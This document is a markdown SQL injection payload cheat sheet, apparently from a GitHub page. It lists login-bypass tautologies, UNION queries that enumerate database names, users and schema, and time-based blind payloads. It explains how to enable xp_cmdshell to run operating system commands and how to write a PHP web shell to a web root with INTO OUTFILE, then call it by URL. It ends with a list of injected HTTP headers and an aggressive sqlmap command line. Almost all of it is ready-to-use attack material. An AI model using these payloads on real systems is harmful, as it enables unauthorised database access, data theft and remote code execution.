 # SQLi Payloads

Tautology : To login bypass

```
' OR 1=1 -- //
```

Tautology : To get Version using Tautology

```
' or 1=1 in (select @@version) -- //
```

Order By : To find number of columns in the table

```
' ORDER BY 1-- //
```

Union : Using Order By, Enumerating the current database name, user, and MySQL version.
(adjust the columns according to the table. starting null and ending database())

```
' UNION SELECT null, null, database(), user(), @@version -- //
```

Union : retrieve the columns table from the information_schema

```
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
```

Blind SQL:

```
' AND IF (1=1, sleep(3),'false') -- //
```

Code Execution : xp_cmdshell in Microsoft SQL need to be enable to work this.

```
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

EXECUTE xp_cmdshell 'whoami'; //to run commands
```

Code Execution: Uploading an RCE to an Writable folder. (/var/www/html/). Adjust Code Accordingly.

```
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```

Command to execute RCE.
`http://<IP>/webshell.php?cmd=<command>`

```
%22)%20AND%201337%3dBENCHMARK(5000000,MD5(0x774c5341))%20AND%20(%221337%22%20LIKE%20%221337
```

```
ADD THESE HEADERS TO YOUR WEB REQUESTS
 
If the SQL injection works, there will be a 30sec delay between the request and response!
 
HEADERS: 
Accept: "' or sleep(30)='"
Accept-Charset: "' or sleep(30)='"
Accept-Datetime: "' or sleep(30)='"
Accept-Encoding: "' or sleep(30)='"
Accept-Language: "' or sleep(30)='"
Authorization: "' or sleep(30)='"
Cache-Control: "' or sleep(30)='"
Connection: "' or sleep(30)='"
Content-Length: "' or sleep(30)='"
Content-MD5: "' or sleep(30)='"
Content-Type: "' or sleep(30)='"
Cookie: "' or sleep(30)='"
Date: "' or sleep(30)='"
Expect: "' or sleep(30)='"
Forwarded: "' or sleep(30)='"
From: "' or sleep(30)='"
If-Match: "' or sleep(30)='"
If-Modified-Since: "' or sleep(30)='"
If-None-Match: "' or sleep(30)='"
If-Range: "' or sleep(30)='"
If-Unmodified-Since: "' or sleep(30)='"
Max-Forwards: "' or sleep(30)='"
Origin: "' or sleep(30)='"
Pragma: "' or sleep(30)='"
Proxy-Authorization: "' or sleep(30)='"
Range: "' or sleep(30)='"
Referer: "' or sleep(30)='"
TE: "' or sleep(30)='"
Upgrade: "' or sleep(30)='"
User-Agent: "' or sleep(30)='"
Via: "' or sleep(30)='"
Warning: "' or sleep(30)='"
X-Client-IP: "' or sleep(30)='"
X-Remote-IP: "' or sleep(30)='"
X-Remote-Addr: "' or sleep(30)='"
X-Forwarded-For: "' or sleep(30)='"
X-Originating-IP: "' or sleep(30)='"
X-Host: "' or sleep(30)='"
X-Forwarded-Host: "' or sleep(30)='"
```


```
sqlmap -u "https://www[.]example[.]com/something/thing/filter-thing.php?vulnerable-param=123& another-param=123" --dbs --level=5 --risk=3 --random-agent --user-agent -v3 --batch --threads=10 --dbs
```

```
--dbs --level=5 --risk=3 --random-agent --user-agent -v3 
```

```
--batch --threads=10 --dbs
```


